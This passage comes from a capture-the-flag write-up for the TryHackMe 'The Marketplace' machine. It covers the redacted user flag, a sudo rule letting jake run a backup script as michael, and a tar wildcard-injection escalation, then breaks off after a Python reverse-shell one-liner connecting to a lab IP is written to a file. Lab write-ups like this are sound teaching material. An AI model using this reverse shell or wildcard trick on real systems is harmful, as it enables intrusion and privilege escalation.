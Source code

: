 We're finally in!

**user.txt:**
```
jake@the-marketplace:~$ cat /home/jake/user.txt 
THM{Redacted}
```

# Privilege Escalation

## jake to michael

**Sudo Permission:**
```
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

**User `jake` is able to run `/opt/backups/backup.sh` as `michael`!** Let's check that out!

```
jake@the-marketplace:~$ ls -lah /opt/backups/backup.sh 
-rwxr-xr-x 1 michael michael 73 Aug 23  2020 /opt/backups/backup.sh
```

**/opt/backups/backup.sh:**
```bash
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

**The `tar` command is using a wildcard(`*`)**, which means we can escalate to `michael`!!

> Note: We can't exploit the relative path, as it has `secure_path` variable.

According to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), we can spawn a interactive shell via abusing the wildcard!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a54.png)

1. Create a python reverse shell:

```
jake@the-marketplace:/opt/backups$ cat << EOF > revshell.sh
> python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.18.61.134",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
> EOF

jake@the-marketplace:/opt/backups$ chmod +x revshell.sh
```
